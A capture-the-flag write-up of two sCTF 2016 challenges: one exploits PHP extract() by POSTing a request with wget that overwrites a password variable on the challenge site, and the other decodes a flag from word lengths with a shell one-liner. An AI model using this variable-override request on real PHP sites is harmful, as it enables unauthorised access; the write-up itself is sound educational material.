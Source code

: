 ```yaml
---
layout: post
title: sCTF.io - 2016Q1
tags: 
 - writeups
 - sctf
address: "0x0003"
---
```

# [Ducks](https://github.com/318br/sctf/tree/master/2016q1/Ducks)

## [The ducks](http://ducks.sctf.michaelz.xyz/) and I have a unfinished score to settle.

* Hint: If you've remember HSF, you'll know that The Ducks is unsolvable.


This one was quite easy: since it gave us the [source code of the page](http://ducks.sctf.michaelz.xyz/source.php) we could see that it uses the [PHP extract()](http://stackoverflow.com/questions/829407/what-is-so-wrong-with-extract) function.

Our goal was then to send a POST that would override the `thepassword_123` variable:


```
wget -qO- --post-data="pass=abc&thepassword_123=abc" \
http://ducks.sctf.michaelz.xyz/
```

and within the output, there it is:

```html
<h1>The Ducks</h1>
<div class="alert alert-success">
<code>sctf{maybe_i_shouldn't_have_extracted_everything_huh}</code>
</div>
```

<hr class="codebreak">

# [LenghtyLingo](https://github.com/318br/sctf/blob/master/2016q1/LengthyLingo/README.md) 

* Can you crack the code? We intercepted this flag but can't seem to figure out how it was encrypted.


The solution is quite simple. You have to count the length of each word, then convert its number to ascii.
I've came up with this one-liner:

```bash
sed 's/, /\n/g' encrypted.dat | while read i; do printf "\x$(printf %x ${#i})"; done
```
